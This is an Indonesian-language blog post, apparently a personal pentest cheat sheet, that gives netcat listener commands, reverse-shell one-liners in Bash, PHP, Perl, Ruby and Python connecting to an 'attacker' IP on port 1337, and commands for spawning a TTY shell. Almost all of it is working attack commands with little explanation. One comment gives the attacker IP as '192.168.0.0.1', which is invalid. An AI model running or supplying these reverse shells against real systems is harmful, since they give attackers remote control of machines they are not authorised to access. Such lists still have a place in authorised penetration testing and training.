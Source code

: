 ```yaml
---
title: "Reverse & Spawning Shell"
date: "2019-01-19"
tags: ['Security']
---
```


**Reverse & Spawning Shell** - Ini cuma arsip pribadi, gausah dipikir terlalu dalem :) Pilihan kita untuk melakukan reverse shell terbatas pada bahasa pemrograman apa yang terinstall di server target.

## Reverse Shell

Sebelum melakukan reverse shell, pastikan di komputer (attacker) sudah melakukan listening menggunakan netcat.

- Linux > `nc -l 1337`
- Mac > `nc -l localhost -p 1337`

_// `1337` adalah port yang akan dibuka. Bisa diubah sesuai selera._

#### 1\. Reverse Shell dari Bash

Bash dapat digunakan untuk melakukan reverse shell. Dari komputer / server target kita masukkan command berikut :  
`bash -i >& /dev/tcp/**192.168.48.133/1337** 0>&1`  
// _192.168.0.0.1_ adalah IP attacker.  
// _1337_ adalah port yang dibuka sebelumnya di command listening menggunakan netcat.

#### 2\. Reverse Shell dari PHP

Untuk reverse shell dari PHP cukup menggunakan command berikut:  
`php -r '$sock=fsockopen("192.168.48.133",1337);exec("/bin/sh -i <&3 >&3 2>&3");'`Jika gagal, ubah angka file descriptor dari 3 ke 4, 5, atau 6.

#### 3\. Reverse Shell dari Perl

Perl juga bisa digunakan untuk melakukan reverse shell. Dengan menggunakan command:  
```
perl -e 'use Socket;$i="192.168.48.133";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### 4\. Reverse Shell dari Ruby

Ruby juga memungkinkan kita untuk melakukan reverse shell. Command yang perlu digunakan adalah:  
```
ruby -rsocket -e'f=TCPSocket.open("192.168.48.133",1337).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### 5\. Reverse Shell dari Python

Yang terakhir adalah Python, kita perlu menggunakan command:  
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.48.133",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Spawning TTY Shell

Seringkali selama pentest, kita dapat memperoleh shell tanpa tty, namun ingin berinteraksi lebih jauh dengan sistem. Berikut adalah beberapa perintah yang memungkinkan kita memunculkan tty shell. Tentunya sebagian dari ini akan tergantung pada sistem dan _packages_ yang diinstal.

- `python -c 'import pty; pty.spawn("/bin/sh")'`
- `echo os.system('/bin/bash')`
- `/bin/sh -i`
- `perl -e 'exec "/bin/sh";'`
- `perl: exec "/bin/sh";`
- `ruby: exec "/bin/sh"`
- `lua: os.execute('/bin/sh')`

3 teratas adalah yang paling sukses secara umum untuk spawning dari command line.

### Referensi

- [Perintah Back Connect / Reverse Shell di Server Linux](https://www.linuxsec.org/2016/06/reverse-shell-on-linux.html).
- [Spawning TTY Shell](https://netsec.ws/?p=337).
